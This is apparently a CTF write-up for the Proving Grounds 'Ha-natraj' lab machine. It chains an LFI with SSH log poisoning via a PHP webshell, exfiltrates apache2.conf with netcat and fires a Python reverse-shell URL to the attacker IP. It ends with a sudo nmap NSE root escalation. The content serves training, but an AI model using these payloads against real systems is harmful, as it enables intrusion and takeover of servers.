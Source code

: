 ```yaml
---
title: "Proving grounds Play: Ha-natraj"
layout: post
date: 2023-09-30 02:00
categories: writeup
---
```


Proving grounds Play - Ha-natraj CTF writeup.

## Nmap

```sh
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d99fdaf42e670192d5da7f70d006b392 (RSA)
|   256 bceaf13bfa7c050c929592e9e7d20771 (ECDSA)
|_  256 f0245b7a3bd6b794c44bfe5721f80061 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: HA:Natraj
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## 80/tcp - open  http - Apache httpd 2.4.29 ((Ubuntu))

![img](/assets/images/CTF/Proving_Grounds/Ha-natraj/web.png)

## Directory Fuzzing

```text
http://192.168.151.80/console/
http://192.168.151.80/console/file.php
```
![img](/assets/images/CTF/Proving_Grounds/Ha-natraj/dir.png)

## LFI Vulnerability

![img](/assets/images/CTF/Proving_Grounds/Ha-natraj/lfi.png)

## LFI to SSH Log Poisoning

![img](/assets/images/CTF/Proving_Grounds/Ha-natraj/ssh-log1.png)

**Log Poisoning**

```sh
naveenj@hackerspace:|03:07|~/pg-play/Ha-natraj$ nc -nv 192.168.151.80  22
(UNKNOWN) [192.168.151.80] 22 (ssh) open
SSH-2.0-OpenSSH_7.6p1 Ubuntu-4ubuntu0.3
naveenj/<?php system($_GET['cmd']); ?>
Protocol mismatch.
```

### Log File

```sh
naveenj@hackerspace:|03:08|~/pg-play/Ha-natraj$ curl "http://192.168.151.80/console/file.php?file=../../../../../../../../../../var/log/auth.log&cmd=whoami"
#auth log
Sep 30 00:07:56 ubuntu sshd[24168]: Bad protocol version identification 'naveenj/www-data' from 192.168.45.204 port 53234 #whoami execution
Sep 30 00:08:01 ubuntu CRON[24169]: pam_unix(cron:session): session opened for user root by (uid=0)
Sep 30 00:08:01 ubuntu CRON[24169]: pam_unix(cron:session): session closed for user root
```

## Initial Foothold

![img](/assets/images/CTF/Proving_Grounds/Ha-natraj/rce.png)

## Privilege Escalation

Enumerate user executable permissions.

```sh
www-data@ubuntu:/var/www/html/console$ sudo -l
sudo -l
Matching Defaults entries for www-data on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ubuntu:
    (ALL) NOPASSWD: /bin/systemctl start apache2
    (ALL) NOPASSWD: /bin/systemctl stop apache2
    (ALL) NOPASSWD: /bin/systemctl restart apache2
www-data@ubuntu:/var/www/html/console$ 
```

List permissions for `/apache2` folder.

```sh
www-data@ubuntu:/var/www/html/console$ cd /etc/apache2
cd /etc/apache2
www-data@ubuntu:/etc/apache2$ ls -al
ls -al
total 88
drwxr-xr-x  8 root root  4096 Jun  3  2020 .
drwxr-xr-x 79 root root  4096 Sep  2  2020 ..
-rwxrwxrwx  1 root root  7224 Mar 13  2020 apache2.conf
drwxr-xr-x  2 root root  4096 Jun  3  2020 conf-available
drwxr-xr-x  2 root root  4096 Jun  3  2020 conf-enabled
-rw-r--r--  1 root root  1782 Jul 16  2019 envvars
-rw-r--r--  1 root root 31063 Jul 16  2019 magic
drwxr-xr-x  2 root root 12288 Jun  3  2020 mods-available
drwxr-xr-x  2 root root  4096 Jun  3  2020 mods-enabled
-rw-r--r--  1 root root   320 Jul 16  2019 ports.conf
drwxr-xr-x  2 root root  4096 Jun  3  2020 sites-available
drwxr-xr-x  2 root root  4096 Jun  3  2020 sites-enabled
www-data@ubuntu:/etc/apache2$ 
```

Change the user configuration of the `apache2.conf` file from `www-data` to the actual system user so when we restart the service we will obtain shell as actual system user.

Check users in the system.

```sh
natraj:x:1000:1000:natraj,,,:/home/natraj:/bin/bash
mahakal:x:1001:1001:,,,:/home/mahakal:/bin/bash
```

Transfer the apache config file to local machine to make the changes using netcat.

Send file.

```sh
www-data@ubuntu:/etc/apache2$ nc 192.168.45.204 1233 < apache2.conf #send
nc 192.168.45.204 1233 < apache2.conf
www-data@ubuntu:/etc/apache2$
```
Receive file.

```sh
naveenj@hackerspace:|03:14|~/pg-play/Ha-natraj/files$ nc -lvnp 1233 >apache2.conf   #receive
listening on [any] 1233 ...
connect to [192.168.45.204] from (UNKNOWN) [192.168.151.80] 47786
```

Do the below changes to the config file.

```conf
#old config
# These need to be set in /etc/apache2/envvars
- User ${APACHE_RUN_USER}
- Group ${APACHE_RUN_GROUP}

#new config
# These need to be set in /etc/apache2/envvars
+ User mahakal
+ Group mahakal
```

Now download the changed config file back to the `/etc/apache2/` folder as `apache2.conf` and restart the apache server.

```sh
www-data@ubuntu:/etc/apache2$ sudo /bin/systemctl restart apache2
sudo /bin/systemctl restart apache2
```

Now run the netcat listener and  obtain the shell, since the apache2 serve is running as `mahakal` the shell for the user will be obtained.

**Reverse Shell Trigger**

```text
http://192.168.151.80/console/file.php?file=../../../../../../../../../../var/log/auth.log&cmd=python3+-c+'import+socket,subprocess,os%3bs%3dsocket.socket(socket.AF_INET,socket.SOCK_STREAM)%3bs.connect(("192.168.45.204",1234))%3bos.dup2(s.fileno(),0)%3b+os.dup2(s.fileno(),1)%3bos.dup2(s.fileno(),2)%3bimport+pty%3b+pty.spawn("bash")'
```

**User: mahakal**

```sh
listening on [any] 1234 ...
connect to [192.168.45.204] from (UNKNOWN) [192.168.151.80] 49014
mahakal@ubuntu:/var/www/html/console$ 
```

Enumerate user executable permissions.

```sh
mahakal@ubuntu:/var/www/html/console$ sudo -l
sudo -l
Matching Defaults entries for mahakal on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User mahakal may run the following commands on ubuntu:
    (root) NOPASSWD: /usr/bin/nmap  #user can run nmap as root
mahakal@ubuntu:/var/www/html/console$
```

**Exploitation**

Create a nmap `.nse` script to spawn `/bin/bash` as below and execute it.

```sh
mahakal@ubuntu:/tmp$ echo 'os.execute("/bin/bash")' > script.nse

echo 'os.execute("/bin/bash")' > script.nse
mahakal@ubuntu:/tmp$ 
mahakal@ubuntu:/tmp$ sudo /usr/bin/nmap --script=script.nse
sudo /usr/bin/nmap --script=script.nse

Starting Nmap 7.60 ( https://nmap.org ) at 2023-09-30 00:22 PDT
root@ubuntu:/tmp# id
uid=0(root) gid=0(root) groups=0(root)
root@ubuntu:/tmp# 
```

**Root Obtained**

Thanks for reading!

For more insights and updates, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).